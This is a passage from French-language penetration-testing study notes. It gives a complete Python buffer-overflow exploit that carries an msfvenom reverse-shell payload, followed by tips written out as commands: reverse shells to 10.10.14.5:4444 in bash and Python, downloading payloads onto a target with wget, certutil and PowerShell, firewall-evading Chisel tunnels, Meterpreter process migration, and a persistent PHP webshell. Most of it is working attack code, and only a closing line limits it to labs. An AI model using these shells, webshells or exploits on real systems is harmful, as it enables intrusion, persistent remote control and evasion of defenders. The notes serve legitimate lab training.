target.sendline(payload)
target.interactive()
```

### 25.3 Exploit Python complet

```python
import socket
import struct
import sys

def exploit(target_ip, target_port):
    offset = 524
    jmp_esp = struct.pack("<I", 0x080414c3)
    
    # Shellcode : msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f python -b "\x00\x0a\x0d"
    shellcode = b""
    # ... (insérer le shellcode généré par msfvenom)
    
    nop_sled = b"\x90" * 16
    
    payload = b"A" * offset + jmp_esp + nop_sled + shellcode
    payload += b"\x90" * (2000 - len(payload))
    
    print(f"[*] Payload size: {len(payload)} bytes")
    print(f"[*] Connecting to {target_ip}:{target_port}")
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        s.connect((target_ip, target_port))
    except ConnectionRefusedError:
        print("[-] Connection refused")
        sys.exit(1)
    
    s.recv(1024)
    s.send(payload)
    print("[+] Payload sent!")
    s.close()

if __name__ == "__main__":
    exploit(sys.argv[1], int(sys.argv[2]))
```

### 25.4 Ressources utiles

| Outil | Usage |
|---|---|
| **pwntools** | Framework Python pour CTF/exploitation |
| **ROPgadget** | Trouver des gadgets ROP dans un binaire |
| **radare2** | Analyse statique/dynamique de binaires |
| **GDB + pwndbg** | Debugger GNU avec extensions |
| **Immunity Debugger** | Debugger Windows + mona.py |
| **Ghidra** | Décompilation (NSA, gratuit) |

> Outils associés : [[Outils/Outil - ROPgadget|ROPgadget]] · [[Outils/Outil - radare2|radare2]]

## 26. Tips & Pièges

> [!tip] **Échanger des fichiers avec la cible (toujours utile)**
> ```bash
> # Depuis Kali, un serveur web rapide :
> python3 -m http.server 80
> # Sur la cible (Linux) :
> wget http://10.10.14.5/payload.sh
> curl -o payload.sh http://10.10.14.5/payload.sh
> # Sur la cible (Windows) :
> certutil -urlcache -split -f http://10.10.14.5/p.exe p.exe
> powershell -c "Invoke-WebRequest http://10.10.14.5/p.exe -OutFile p.exe"
> # Version base64 (si pas d'outil de téléchargement) :
> base64 payload > payload.b64   # local
> # coller dans le shell, puis :
> echo '<base64>' | base64 -d > payload
> ```

> [!tip] **Améliorer un shell Windows**
> ```powershell
> # Passer de cmd à PowerShell (si on est dans cmd) :
> powershell
> # Passer de PowerShell à un vrai PTY-like :
> # (via ConPty) charger un .ps1 et :
> $pts = [System.Management.Automation.Runspaces.PseudoConsole]::Create()
> # Ou simplement : définir le prompt + couleurs pour ne pas se tromper
> $Host.UI.RawUI.WindowTitle = "SHELL CIBLE"
> ```

> [!warning] **Piège n°1 : le shell qui se ferme**
> Si ton reverse shell meurt à chaque commande, la cause #1 = **le process qui l'héberge est tué**.
> - Fais tourner le shell dans un process qui ne meurt pas :
> ```bash
> # (à lancer dans le shell) : re-spawner en arrière-plan
> setsid bash -i >& /dev/tcp/10.10.14.5/4444 0>&1 &
> # ou nohup
> ```
> - Sur Windows : évite de tuer le processus dont tu dépends (ex : ne "download" pas ta propre session).

> [!warning] **Piège n°2 : le listener qui ne reçoit rien**
> - Lancer le **listener AVANT** le payload.
> - Utiliser **un port différent de celui déjà en écoute**.
> - **Listener en arrière-plan** dans msf : `set ExitOnSession false` puis `run -j`.
> - Firewall local : `sudo iptables -I INPUT -p tcp --dport 4444 -j ACCEPT`.

> [!warning] **Piège n°3 : proxychains ne comprend que TCP**
> Pas de UDP, pas d'ICMP. Les scans à travers proxychains doivent être `-sT -Pn`.
> Un scan SYN (`-sS`) via SOCKS ne marchera pas.

> [!tip] **Chisel : penser au reverse sur 443 (ressemble au HTTPS)**
> ```bash
> # Sur le serveur : 
> ./chisel server --port 443 --reverse --tls --key key.pem --cert cert.pem
> # Sur la cible :
> ./chisel client https://10.10.14.5:443 R:socks
> # → passe souvent inaperçu à travers les pare-feux (trafic chiffré)
> ```

> [!tip] **Python = ton couteau suisse**
> ```bash
> # Script rapide de reverse shell multi-fonctions à garder sous la main :
> python3 -c 'import socket,subprocess,os,pty;s=socket.socket();s.connect(("10.10.14.5",4444));[os.dup2(s.fileno(),f) for f in (0,1,2)];pty.spawn("/bin/bash")'
> ```

> [!success] **Les 3 réflexes avant d'exploiter**
> 1. **Listener prêt** (ou serveur HTTP pour le transfert)
> 2. **Connaître l'archi cible** (`x86`/`x64`, Windows/Linux) → payload adapté
> 3. **Connaître sa propre IP** depuis la perspective de la cible (`ip a`, VPN)
> Si le payload "ne passe pas" → test d'abord une **stageless shell** simple (plus fiable).

> [!tip] **Migrer le process Meterpreter pour la stabilité**
> Si la session meterpreter est instable, migrate immédiatement vers un processus stable :
> ```bash
> migrate -N explorer.exe       # Windows : explorer
> migrate -N svchost.exe        # Windows : svchost (attention au PID)
> migrate -N nginx              # Linux : un processus qui tourne longtemps
> ```
> La migration ferme la session actuelle et en ouvre une nouvelle dans le processus cible.

> [!warning] **Piège n°4 : le shell arrive mais pas de commande**
> - Le shell est là mais `whoami` ne répond pas → souvent un **shell non-interactive**.
> - Vérifier avec `echo test` ou `id`.
> - Si pas de TTY : appliquer la section 6 (TTY Stabilization).

> [!warning] **Piège n°5 : Exploit dit "success" mais pas de session**
> - L'exploit affiche succès mais aucune session Meterpreter ne s'ouvre.
> - Causes fréquentes : mauvais LHOST/LPORT, mauvais payload, firewall sortant.
> - Solutions : vérifier `ip a` pour LHOST, changer de port, tester un **stageless** payload, vérifier les règles iptables/firewalld.

> [!tip] **Créer un webshell persistant (post-exploitation)**
> ```php
> <?php
> if (isset($_REQUEST['c'])) {
>     echo "<pre>" . shell_exec($_REQUEST['c']) . "</pre>";
> }
> ?>
> ```
> ```bash
> # Upload via une faille upload :
> # Accès : http://target.com/uploads/shell.php?c=whoami
> ```

> [!tip] **Ligolo-ng : le meilleur outil pour le pivoting Windows**
> Quand la cible est Windows et qu'il n'y a pas de SSH, Ligolo-ng est souvent le choix le plus fiable.
> Contrairement à Chisel, il crée une vraie interface réseau → pas besoin de proxychains.

---

> [!warning] **Rappel** : lab uniquement (VulnHub, THM "Brainstorm", "Gatekeeper"...).

Suite logique : [[05 - Active Directory| Active Directory]] / [[06 - Post-Exploitation| Post-Exploitation]]
